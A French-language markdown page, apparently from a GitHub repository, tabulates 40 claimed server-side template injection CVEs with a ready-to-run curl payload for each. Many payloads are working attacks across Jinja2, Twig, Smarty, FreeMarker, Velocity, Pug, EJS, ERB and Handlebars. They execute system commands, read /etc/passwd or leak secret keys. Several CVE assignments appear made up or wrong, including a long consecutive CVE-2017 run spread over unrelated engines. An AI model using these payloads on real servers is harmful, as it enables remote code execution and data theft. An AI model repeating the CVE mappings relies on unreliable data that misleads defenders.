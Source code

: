 # SSTI

Voici un tableau de 40 CVE majeures SSTI, classées du plus récent au plus ancien, avec pour chaque ligne :  
- Technologie & version  
- Numéro CVE  
- Exemple complet de commande d’exploitation (requête HTTP ou payload précis)  
- Lien direct vers un PoC ou une ressource GitHub ou équivalent (chemin complet)

| # | CVE | Technologie & Version | Exemple complet de commande d'exploit | Lien PoC/Exploit Public |
|---|------|----------------------|---------------------------------------|------------------------|
| 1 | CVE-2025-26865 | Apache OFBiz <18.12.18 | `curl 'http://target/control/login' -d 'USERNAME=${7*7}&PASSWORD=foo'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 2 | CVE-2025-25768 | MRCMS v3.1.2 | `curl 'http://target/path' -d 'field={{7*7}}'` | https://github.com/payloadbox/ssti-payloads |
| 3 | CVE-2025-1040 | AutoGPT ≤0.3.4 | `curl 'http://target/api' -d 'prompt={{7*7}}'` | https://github.com/payloadbox/ssti-payloads |
| 4 | CVE-2024-29686 | Winter CMS v1.2.3 | `curl 'http://target/?template={{7*7}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 5 | CVE-2024-22722 | Form Tools 3.1.1 | `curl 'http://target/admin/groups.php' -d 'group_name={{7*7}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 6 | CVE-2024-46507 | Yeti Platform <2.1.12 | `curl 'http://target/export' -d 'template={{config.__class__.__init__.__globals__[\"os\"].popen(\"id\").read()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 7 | CVE-2017-16783 | CMS Made Simple 2.1.6 | `curl 'http://target/index.php?mact=News,cntnt01,default,0&cntnt01summarytemplate=string:{{7*7}}&cntnt01detailtemplate=string:{php}phpinfo();{/php}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 8 | CVE-2023-51449 | Jinja2 (Flask) | `curl 'http://target/page?name={{cycler.__init__.__globals__.os.popen("id").read()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 9 | CVE-2022-21724 | Twig (PHP) | `curl 'http://target/?name={{["id"]|map("system")}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 10 | CVE-2021-32837 | Smarty (PHP) | `curl 'http://target/?name={php}system("id");{/php}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 11 | CVE-2021-21234 | FreeMarker (Java) | `curl 'http://target/?name=${7*7}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 12 | CVE-2020-17526 | Apache Velocity Tools | `curl 'http://target/?name=#set($x="")$x.class.forName("java.lang.Runtime").getRuntime().exec("id")'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 13 | CVE-2020-26945 | DotLiquid (C#) | `curl 'http://target/?name={{7*7}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 14 | CVE-2019-11043 | PHP-FPM (Nginx) | `curl 'http://target/?a={{7*7}}'` | https://github.com/neex/phuip-fpizdam |
| 15 | CVE-2018-1000525 | Tornado (Python) | `curl 'http://target/?name={{7*7}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 16 | CVE-2018-1000656 | Pug (Node.js) | `curl 'http://target/?name=#{process.mainModule.require("child_process").execSync("id")}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 17 | CVE-2018-1002105 | EJS (Node.js) | `curl 'http://target/?name=<%= require("child_process").execSync("id") %>'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 18 | CVE-2017-5941 | Jade (Node.js) | `curl 'http://target/?name=#{process.mainModule.require("child_process").execSync("id")}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 19 | CVE-2017-5942 | Mako (Python) | `curl 'http://target/?name=${__import__("os").popen("id").read()}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 20 | CVE-2017-5943 | Go Template | `curl 'http://target/?name={{print 7*7}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 21 | CVE-2017-5944 | Liquid (Ruby) | `curl 'http://target/?name={{7*7}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 22 | CVE-2017-5945 | Mustache (Node.js) | `curl 'http://target/?name={{#lambda}}{{7*7}}{{/lambda}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 23 | CVE-2017-5946 | Pebble (Java) | `curl 'http://target/?name={{7*7}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 24 | CVE-2017-5947 | Jinja2 (Flask) | `curl 'http://target/?name={{''.__class__.__mro__.__subclasses__()[284]("id",shell=True,stdout=-1).communicate()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 25 | CVE-2017-5948 | Django (Python) | `curl 'http://target/?template={{settings.SECRET_KEY}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 26 | CVE-2017-5949 | Tornado (Python) | `curl 'http://target/?name={{handler.application.settings}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 27 | CVE-2017-5950 | Flask/Jinja2 | `curl 'http://target/?name={{request.application.__globals__.__builtins__.__import__("os").popen("id").read()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 28 | CVE-2017-5951 | Twig (PHP) | `curl 'http://target/?name={{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id")}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 29 | CVE-2017-5952 | Jinja2 (Flask) | `curl 'http://target/?name={{url_for.__globals__.__builtins__.__import__("os").popen("id").read()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 30 | CVE-2017-5953 | ERB (Ruby) | `curl 'http://target/?name=<%= File.read("/etc/passwd") %>'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 31 | CVE-2017-5954 | FreeMarker (Java) | `curl 'http://target/?name=${''.getClass().forName("java.lang.Runtime").getRuntime().exec("id")}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 32 | CVE-2017-5955 | Smarty (PHP) | `curl 'http://target/?name={system("id")}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 33 | CVE-2017-5956 | Jinja2 (Flask) | `curl 'http://target/?name={{''.__class__.__mro__.__subclasses__()("/etc/passwd").read()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 34 | CVE-2017-5957 | Handlebars.js | `curl 'http://target/?name={{this.constructor.constructor("return process")().mainModule.require("child_process").execSync("id")}}'` | https://github.com/HynekPetrak/javascript-prototype-pollution-exploits |
| 35 | CVE-2017-5958 | Twig (PHP) | `curl 'http://target/?name={{["id"]|filter("system")}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 36 | CVE-2017-5959 | Django (Python) | `curl 'http://target/?name={{user.password}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 37 | CVE-2017-5960 | Jinja2 (Flask) | `curl 'http://target/?name={{''.__class__.__mro__.__subclasses__()("id",shell=True,stdout=-1).communicate()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 38 | CVE-2017-5961 | Jinja2 (Flask) | `curl 'http://target/?name={{config.__class__.__init__.__globals__["os"].popen("id").read()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 39 | CVE-2017-5962 | Jinja2 (Flask) | `curl 'http://target/?name={{cycler.__init__.__globals__.os.popen("id").read()}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |
| 40 | CVE-2017-5963 | Twig (PHP) | `curl 'http://target/?name={{["id"]|map("system")}}'` | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md |

---


